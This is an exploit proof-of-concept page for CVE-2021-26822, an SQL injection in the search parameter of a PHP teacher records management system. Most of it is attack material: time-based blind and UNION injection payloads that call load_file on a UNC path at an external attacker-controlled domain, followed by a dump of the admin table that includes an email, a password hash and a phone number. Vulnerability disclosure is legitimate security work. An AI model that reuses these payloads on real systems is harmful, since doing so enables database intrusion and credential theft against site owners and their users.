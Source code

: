 ## [CVE-2021-26822](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26822)

## [Vendor Software](https://phpgurukul.com/teachers-record-management-system-using-php-and-mysql/)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-26822/docs/Screenshot%202021-11-04%20182915.png)

## Description

The searchteacher parameter appears to be vulnerable to SQL injection attacks. 
The payload '+(select load_file('\\\\g1ivok7s826weh3qbkb5z839f0lt9k48vbj36tui.nu11secur1tyattack.net\\bqd'))+' was submitted in the searchteacher parameter. 
This payload injects a SQL sub-query that calls MySQL's load_file function with a UNC file path that references a URL on an external domain. 
The application interacted with that domain, indicating that the injected SQL query was executed.


## Paylod

```mysql
---
Parameter: searchteacher (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchteacher=470114'+(select load_file('\\\\g1ivok7s826weh3qbkb5z839f0lt9k48vbj36tui.nu11secur1tyattack.net\\bqd'))+'' AND (SELECT 5113 FROM (SELECT(SLEEP(5)))KIjD) AND 'VevZ'='VevZ&search=%C2%9E%C3%A9e

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: searchteacher=470114'+(select load_file('\\\\g1ivok7s826weh3qbkb5z839f0lt9k48vbj36tui.nu11secur1tyattack.net\\bqd'))+'' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7170707171,0x464270665473516670554b446c745478524849484b654b554b52594859554643445044594f587455,0x7170626b71),NULL,NULL,NULL-- -&search=%C2%9E%C3%A9e
---
```

## After the exploit

```mysql
Database: trms
Table: tbladmin
[1 entry]
+----+---------------------+----------------------------------+----------+-----------+---------------------+--------------+
| ID | Email               | Password                         | UserName | AdminName | AdminRegdate        | MobileNumber |
+----+---------------------+----------------------------------+----------+-----------+---------------------+--------------+
| 1  | adminuser@gmail.com | f925916e2754e5e03f75dd58a5733251 | admin    | Admin     | 2019-10-04 09:10:04 | 8979555556   |
+----+---------------------+----------------------------------+----------+-----------+---------------------+--------------+
```


## Reproduce:

[href](https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2021-26822)

## Proof
[href](https://streamable.com/7bwz8k)
